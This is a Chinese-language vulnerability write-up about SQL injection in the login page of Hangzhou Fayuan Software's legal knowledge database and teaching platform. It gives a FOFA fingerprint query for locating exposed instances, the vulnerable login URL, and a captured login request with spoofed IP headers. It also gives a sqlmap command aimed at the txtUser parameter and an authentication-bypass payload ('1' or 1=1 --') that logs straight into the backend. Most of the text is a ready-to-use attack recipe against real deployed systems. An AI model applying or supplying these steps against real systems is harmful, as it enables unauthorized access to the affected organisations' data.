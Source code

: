 # 杭州法源软件 法律知识数据库系统 SQL注入漏洞

## 漏洞描述

杭州法源软件开发有限公司开发的实践教学平台系统下的法律知识数据库系统登录前台存在通用SQLi漏洞

## 漏洞影响

> [!NOTE]
>
> 杭州法源软件 法律知识数据库系统

## FOFA

> [!NOTE]
>
> icon_hash="2018105215" || title="实践教学平台 - 杭州法源软件开发有限公司"

## 漏洞复现

进入页面如下

![](http://wikioss.peiqi.tech/vuln/fy-1.png)

出现漏洞的Url为

```
http://xxxxxxx/JusRepos/ui/login.aspx
```

![](http://wikioss.peiqi.tech/vuln/fy-2.png)

抓取登录的请求包

```
POST /JusRepos/ui/login.aspx HTTP/1.1
Host: xxx.xxx.xxx.xxxx
Content-Length: 362
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: ASP.NET_SessionId=0upclbweiokwx4qnkpfzumir
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

__EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=%2FwEPDwULLTE4NTUyMzg5NDNkZBLjR6E85W4xvkheqS5g7gOsMdeop3Xfh1BwnTSCbV7z&__VIEWSTATEGENERATOR=E3BBEDB7&__EVENTVALIDATION=%2FwEdAATFHpXckaPEvZEyN%2BNhIQGTDFTzKcXJqLg%2BOeJ6QAEa2jPSlu16Yx4QbiDU%2BdddK1MwoKxxc3z27YmfD4jI4gVsV9%2FpN02jZyPKj4JeL7G5UVenPtL%2FK1en7XvhZG5vyHk%3D&txtUser=admin&txtPwd=123&btnSub=%E7%99%BB%E5%BD%95
```

其中注入的参数为 POST数据中的 **txtUser** 参数, 保存为文件使用 Sqlmap跑一下

```
sqlmap -r sql.txt -p txtUser
```

![](http://wikioss.peiqi.tech/vuln/fy-3.png)

同时还存在着万能密码可以直接登录后台

```
user: 1' or 1=1 --
pass: peiqi
```

![](http://wikioss.peiqi.tech/vuln/fy-7.png)